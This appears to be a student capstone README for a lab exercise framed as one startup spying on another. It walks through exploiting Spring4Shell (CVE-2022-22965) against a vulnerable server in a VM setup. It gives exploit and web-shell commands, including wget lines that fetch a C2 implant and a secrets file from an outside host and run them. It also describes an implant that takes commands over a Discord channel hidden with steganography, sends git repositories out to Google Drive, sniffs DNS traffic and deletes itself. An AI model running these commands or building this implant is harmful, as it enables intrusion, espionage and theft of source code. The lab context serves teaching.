 # 590J Captsone Project
Group: **Counting Sheep**

Brendan Henrich

Andrew Maldonado

Basundhara Chakrabarty

**Scenario: 
To get ahead in the competitive startup environment, startup A wishes to try and figure out what startup B is working on.

**Vulnerability:**

+We exploit the very recent Spring4Shell vulnerability (CVE-2022-22965) in the JAVA Spring framework,a very commonly used enterprise-grade development framework among developers. (Ref: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965)
Spring4Shell allows us to execute remote code on the target code, attackers can send crafted HTTP requests to create a malicious .jsp file in the service’s root directory.

Requirements for a host to be vulnerable to Spring4Shell:
JDK (Java Development Kit) 9++
spring-webmvc or spring-webflux
Spring framework versions 5.2.0 to 5.2.19, 5.3.0 to 5.3.17, or older
Apache Tomcat to serve the application
Built as a WAR (Web Application Resource) file (and not JAR)


**Spring4shell Implant Delivery**

CVE-2022-22965

## Proof of Concept Setup
2x Virtual Machines [Host OS Windows 10] running Ubuntu 20.04.4 LTS
Local network DCHP 10.0.2.0/24

Attacker IP = 10.0.2.15

Target IP = 10.0.2.4

Target is running vulnerable Spring server !

**Instructions:**
```
Start here: https://medium.com/geekculture/spring4shell-exploit-walkthrough-9843c0244b68
On Target: [run the vulnerable spring server]
cd spring4shell
sudo docker run -p 80:8080 spring4shell
```
On Attacker: [launch the attack]:
```
cd spring4shell
python3 exploit.py --url 'http://10.0.2.4/helloworld/greeting'
```

**WEB SHELL COMMANDS:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=whoami
lynx -dump http://10.0.2.4/shell.jsp?cmd=echo%20spring4shell
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls
lynx -dump http://10.0.2.4/shell.jsp?cmd=ls%20-l%20/
```

**LOAD the implant:**
```
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/XGHo3dJDb31/c2_implant
lynx -dump http://10.0.2.4/shell.jsp?cmd=wget%20-q%20https://get.station307.com/nScoTrBugqc/secrets.json
```

** RUN the implant:**
lynx -dump http://10.0.2.4/shell.jsp?cmd=%2e%2fc2_implant

Anatomy of our exploit:
![GitHub Logo](/Anatomy.png)

How do we get access to the target?
By exploiting the recent vulnerability Spring4Shell (CVE-2022-22965)!

  
**How does our Command and Control Server work?**
+Python code c2_home.py to enable a Discord server that waits until the bot (implant) is online and then sends commands to it! The commands are sent embedded to images using python stegano.

**How does our Implant work?**

+The implant is written in python, and compiled into a binary executable for Ubuntu 20.04 LTS AMD64, and can be placed in the startup folder or run from the webshell
+Logically it can be compiled for for a host that is vulnerable to Spring4any architecture Shell!

Implant code: Main code is c2_implant.py, which calls c2_discord.py(aiding in Discord communication) and helper.py (Performs the Data exfiltration)
The implant code polls Discord every <Poll time interval> (set to 5s at the beginning of the presentation) to fetch messages (in the form of images, fetch_command() function in c2_implsnt.py) from the CnC server, and once it gets an image, decrypts it into a message and executes it. We used the stegano python library for embedding messages in the images. There are four possible messages, as seen in the parse_command() function in c2_implant.py:
  
+sleep <NEW_TIMER>: Change sleep timer to NEW_TIMER, useful if we need the bot to poll less frequently and lay low for a while
  
+repos: Launch get_git_repos() (described below)
  
+sniff 1 and sniff 0: Toggles the sniffer function sniff() described below
  
+sd: Self destruct, remove all files on disk and exit, this logic is present in the self_destruct() function
  

**What data do we exfiltrate?**
Our implant can collect two types of data: Git Repos from the target (since every developement team uses version control), and we can also launch a packet sniffer. 

+Currently, helper.py has get_git_repos(), which scans the local filesystem for git repos, tar-s them in a temporary directory in /tmp, uploads the tar-ed files to a service account on Google Drive, and then deletes the files and the temporary folder. We use Google Drive APIs to connect to the service account

+Additionally, the sniff() function takes in an integer toggle (1: on and 0: off), sniff(1) starts packet sniffing on available interfaces (Using python scapy) and collects all DNS (TCP and UDP port 53) packets. Sniff(0) turns off sniffing, and if any packets are collected, they are uploaded to Drive by calling uploadToDrive(). These packets can be downloaded from Google Drive and viewed in Wireshark, they contain the domain names in plaintext!
  
**How do we obfuscate the data/hide in plain sight?**
+We use steganography to send commands from CnC to target, and can change the poll times or self destruct (remove itself completely from target)
+Everything that the implant generates is saved in /tmp and removed after upload

**How can we possibly scale our project?**
+Our CnC server can send commands to multiple bots, possible next step would be to add functionality to add multiple bots in the code, use a sequencing mechanism to route commands to various bots by group, and have them execute them.
+We can collect a bunch of packet captures showing unencrypted DNS packets, collect the domain names from them and run analytics to get more info on the internet activity of the developer, eg., what websites does she visits, what developer console tools she uses, etc etc. 


